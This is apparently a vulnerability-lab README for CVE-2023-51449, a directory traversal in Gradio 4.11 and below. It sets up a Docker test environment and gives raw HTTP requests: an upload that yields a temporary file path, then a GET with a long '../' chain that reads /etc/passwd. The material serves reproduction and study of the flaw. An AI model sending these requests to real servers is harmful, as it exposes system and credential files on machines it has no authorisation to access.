

# Gradio `file` Directory Traversal Vulnerability (CVE-2023-51449)

[中文版本(Chinese version)](README.zh-cn.md)

Gradio is a Python library for creating interactive interfaces for machine learning models. With Gradio, you can quickly build a visual, easy-to-use web interface for your model without writing any front-end code.

Gradio 4.11 and below, when authentication is not enabled, you can use a public URL to access any file on the machine running the Gradio application if you know the file path to find (for example, if the demo was created with `share=True` or on Hugging Face Spaces).

Reference Links:

+ https://github.com/gradio-app/gradio/pull/6833

+ https://github.com/gradio-app/gradio/tree/gradio%404.10.0

## Environment startup

Execute the following command to start the Gradio environment:

```
docker compose up -d
```

After successful startup, there is no authentication by default.

```
http://your-ip:7860
```

## Vulnerability Reproduction

To upload a piece of content using the upload interface, you need to obtain an accessible file path.

```
POST /upload HTTP/1.1
Host: localhost:7860
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311

-----------------------------250033711231076532771336998311
Content-Disposition: form-data; name="files";filename="okmijnuhbygv"
Content-Type: application/octet-stream

123456
-----------------------------250033711231076532771336998311--

```


After getting an accessible file path, use the file interface to access it and use directory traversal to read the file, and it can be read successfully.

```
GET /file=/tmp/gradio/7c4a8d09ca3762af61e59520943dc26494f8941b/../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: localhost:7860
```


